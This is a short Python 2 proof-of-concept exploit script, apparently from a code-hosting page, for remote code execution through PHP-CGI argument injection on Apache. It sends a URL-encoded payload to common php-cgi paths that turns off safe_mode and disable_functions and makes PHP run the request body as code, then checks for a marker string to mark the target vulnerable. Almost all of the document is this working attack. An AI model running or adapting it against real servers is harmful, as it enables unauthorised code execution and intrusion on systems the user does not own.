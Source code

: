 POC
---

    #!/usr/bin/env python
    # coding=utf-8

    import urllib2
    import sys

    def request_url(url='', data=None, header={}):
        page_content = ''
        request = urllib2.Request(url, data, header)

        try:
            response = urllib2.urlopen(request)
            page_content = response.read()
        except Exception, e:
            print '[*] Error: '+str(e)

        return page_content


    if __name__=="__main__":
        if len(sys.argv) != 2:
            print '''
            python this.py www.baidu.com
            python this.py www.baidu.com:8080
            '''
            sys.exit()

        target_url = sys.argv[1]
        if target_url.endswith('/'):
            target_url = target_url[:-1]

        if target_url.startswith('http://') or target_url.startswith('https://'):
            pass
        else:
            target_url = 'http://' + target_url


        paths = ['/cgi-bin/php', '/cgi-bin/php5', '/cgi-bin/php-cgi', '/cgi-bin/php.cgi']
        payload = '?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%6E'
        evalcode = '''<?php echo 'Content-type: text/html\n\n';echo 'Here_is_apache_php_remote_code_exec';exit(1);?>'''

        fake_header = {'User-Agent' : 'Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25'}
        data =1
        for path in paths:
            attackurl = target_url+path+payload
            html = request_url(attackurl, evalcode, fake_header)
            print "[*] Response is: ", html
            if 'Here_is_apache_php_remote_code_exec' in html:
                print "[*] Finded tag ...this site is vuln"
                print "[*] URL is: ", attackurl
                break